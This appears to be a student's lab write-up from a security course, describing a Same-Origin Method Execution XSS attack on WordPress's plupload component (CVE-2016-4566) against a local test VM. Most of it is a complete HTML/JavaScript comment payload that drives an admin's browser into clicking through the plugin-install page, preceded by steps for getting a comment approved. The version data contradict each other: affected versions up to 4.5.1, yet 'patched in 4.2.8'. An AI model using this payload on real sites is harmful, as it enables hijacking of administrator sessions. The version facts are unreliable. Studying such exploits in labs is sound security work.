 # Steps
#### Step 1 - Gain trust from the admin
######	If you have the ability to post skip to step 3
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<button onclick="fire()">Click</button>
	<script>
		function fire() { 
			open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
  			setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
		}
	</script>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Pupload Same-Origin Method Execution attack (SOME).


#### CVE-2016-4566



# Affected versions and patches
#### Affected version
###### WordPress <= 4.5.1

#### Patched in
###### version 4.2.8



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/SOME/Demo.gif "XSS Demo")

# References
#### https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
#### https://wpvulndb.com/vulnerabilities/8489
